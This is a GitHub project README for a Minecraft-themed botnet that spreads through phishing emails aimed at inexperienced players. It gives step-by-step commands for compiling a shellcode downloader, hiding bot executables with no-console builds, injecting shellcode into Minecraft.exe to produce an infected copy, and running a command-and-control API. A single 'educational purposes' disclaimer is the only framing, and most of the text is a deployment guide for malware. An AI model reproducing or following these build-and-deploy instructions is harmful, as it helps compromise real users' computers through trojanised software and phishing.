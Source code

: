 # MALW-MinecraftBotnet

MinecraftBotnet is a project developed to create an automated botnet which propagates through phishing emails. The target audience would be unexperienced users that play Minecraft.

> [!CAUTION]
> **DISCLAIMER: This project was done for educational purposes. We are not responsible for the use you give it.**

## Structure

This project was divided in 5 sections that focuses in different aspects of the botnet.

1. [API](/API/): Simple webserver API which will provide all available files to be downloaded and schedule each machine, inside the botnet, to execute the desired tasks.
1. [InfectPE](/InfectPE/): This folder contains a self-version program which allows to inject shellcode into any executable via the creation of a new section. Original version [InfectPE](https://github.com/secrary/InfectPE).
1. [Malware](/Malware/): Main program that executes in the victim's computer.
1. [Payload](/Payload/): The shellcode script that will be injected into the executable, and another c++ script that will be downloaded by the shellcode, in charge of setting up the malware in the victim's computer.
1. [Scripts](/Scripts/): This folder contains the task that is executed by the malware.

## Instructions:

### Compiling shellcode and mainDownloader
Maindownloader:

- `$ cd /Payload`
- `$ gcc -m32 MainDownloader.c -o MainDownloader.exe -lurlmon`
- Now, you can place the generated executable inside [API downloads folder](/API/downloads).


Payload (shellcode):
* `$ cd /Payload`
* `$ ./ShellcodeCompiler_x64.exe -r payload.cpp -a _assembly.asm -p win_x86`
* Inside the generated file `_assembly.asm` you must manually modify the assembly instruction to fix a bug. You must replace the instruction `mov eax, fs:[ecx + 0x30]` with `mov eax, [fs:ecx + 0x30]`.
* `$ nasm -g -f win32 _assembly.asm -o _assembly.o`
* `$ C:/MinGW/bin/ld.exe -g -mi386pe _assembly.o -o _assembly.exe`
>
* `$ objdump -d _assembly.exe`
  * ¡Gitbash required or any alternative! *See tmp.txt file to see the desired output
* Paste the .text section inside tmp.txt file
* `$ python dumpShellcode.py tmp.txt`

> [!TIP]
> You can use any other alternative to ouput the shellcode from an excutable.

> [!WARNING]
> We have encountered several errors with the gcc distribution. To compile the MainDownloader, we have used the `LLVM` distribution; however, for the shellcode part we have used `MinGW`.

> [!IMPORTANT]
> You will need gcc for mutiplatform (32 bits) and nasm installed.

### Compiling the tasks
* `$ cd /Scripts`
* `$ python -m PyInstaller --onefile --noconsole times.py`
* Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Compiling the malware
* `$ cd /Malware`
* `$ python -m PyInstaller --onefile --noconsole botScript.py`
* Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Infecting the Minecraft executable
* Paste the shellcode generated previously inside the file `infectPE.cpp` - `char shellcode[] =`.
>
* `$ g++ -c PE.cpp -std=c++17`
* `$ g++ -c InfectPE.cpp -std=c++17`
* `$ g++ -o InfectPE.exe InfectPE.o PE.o`
* `$ ./InfectPE.exe ./Minecraft/Minecraft.exe ./Minecraft/Minecraft_Infected.exe`
* Now, you can place `./Minecraft/Minecraft_Infected.exe` inside [API downloads folder](/API/downloads).

## Running the Botnet server:
Before starting the server, remember to change the IP address depending on how you setup the network or the server itself (you could use directly `0.0.0.0:80`) inside `/API/BotnetAPI.py`.
> [!IMPORTANT]
> Keep in mind, that changing the IP implies changing the following files: payload.cpp, MainDownloader.c, botScript.py, and BotnetAPI.py. In addition, changing the payload and the MainDownloader involves translating to asm, compiling, and replacing the shellcode string again in infectPE.cpp. 

* `$ cd /API`
* `$ pip install -r requirements.txt`
* `$ python BotnetAPI.py`

> [!IMPORTANT]
> You will need python installed.

> [!TIP]
> Theoretically, you can deploy this API to docker; however, it was not tested for this project.

## Considerations

As the configuration varies from one computer/VM to another, the IP's may vary as well. For that reason, you should replace any IP from the Payload, MainDownloader or Malware scripts.
